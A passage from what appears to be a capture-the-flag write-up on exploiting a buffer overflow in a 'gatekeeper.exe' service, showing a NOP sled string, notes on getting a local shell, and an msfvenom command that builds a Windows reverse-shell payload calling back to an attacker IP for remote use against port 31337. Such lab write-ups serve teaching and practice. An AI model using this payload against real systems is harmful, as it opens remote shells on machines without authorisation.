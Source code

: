 ```
"\x90" * 16
```

- now our final script will look like the below

![](assets/GateKeeper_assets/Pasted%20image%2020231203144239.png)

- now when we rerun our exploit (after restarting the gatekeeper.exe), we get a shell on our local machine, meaning our exploit was successful

![](assets/GateKeeper_assets/Pasted%20image%2020231203144307.png)

## Exploit Remotely

- now that we have a working exploit, we will then rerun the exploit remotely, knowing that this gatekeeper service is running on port 31337
- we first generate a new payload specifying our LHOST as our IP address on the network

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.8.80.123 LPORT=4444 EXITFUNC=thread -b "\x00\x0a" -f c
```

- and also modify the target IP and port
